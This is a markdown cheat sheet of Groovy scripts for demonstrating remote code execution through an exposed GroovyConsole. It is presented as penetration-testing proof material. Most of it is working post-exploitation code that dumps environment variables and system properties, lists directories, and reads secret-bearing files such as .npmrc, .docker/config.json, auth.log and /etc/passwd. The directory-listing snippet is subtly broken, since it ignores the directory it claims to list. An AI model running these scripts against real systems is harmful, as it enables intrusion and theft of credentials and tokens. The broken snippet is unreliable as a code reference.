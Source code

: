 ## Output below is a list of scripts that can help you prove RCE in GroovyConsole in case direct access to system commands are disabled

## Get Environment Variables
```
def envVars = System.getenv()

envVars.each { key, value ->
    println "${key} = ${value}"
}
```

## Get all System Properties
```
def sysProps = System.getProperties()

sysProps.each { key, value ->
    println "${key} = ${value}"
}
```
## List Files of Home Directory
```
def homeDir = new File(System.getProperty("user.home"))

println "Home Directory: ${homeDir.absolutePath}"
println "Contents:"

homeDir.eachFile { file ->
    println file.name
}
```
## List Files of Any Specified Directory (ls -la)
> Simply change the `optDirectory` to specified directory, say `/etc`
```
def homeDir1 = new File(System.getProperty("user.home"))
def optDirectory = new File("/opt")

println "Home Directory: ${homeDir1.absolutePath}"
println "Contents:"

homeDir1.eachFile { file ->
    if (file.isDirectory()) {
        println "[DIR]  ${file.name}"
    } else if (file.isFile()) {
        println "[FILE] ${file.name}"
    }
}
```

## Define a list of internal files and return its output (Local File Disclosure)
```
def homeDir = new File(System.getProperty("user.home"))
def filesToCheck = [
    '/var/log/auth.log', 
    '.npmrc', 
    '.docker/config.json',
    '/etc/passwd'  // Unix-like systems only
]

filesToCheck.each { fileName ->
    def file = new File(fileName.startsWith('/') ? fileName : "${homeDir}/${fileName}")
    if (file.exists()) {
        println "Contents of ${fileName}:"
        file.eachLine { line ->
            println line
        }
    } else {
        println "${fileName} not found or inaccessible."
    }
}

```
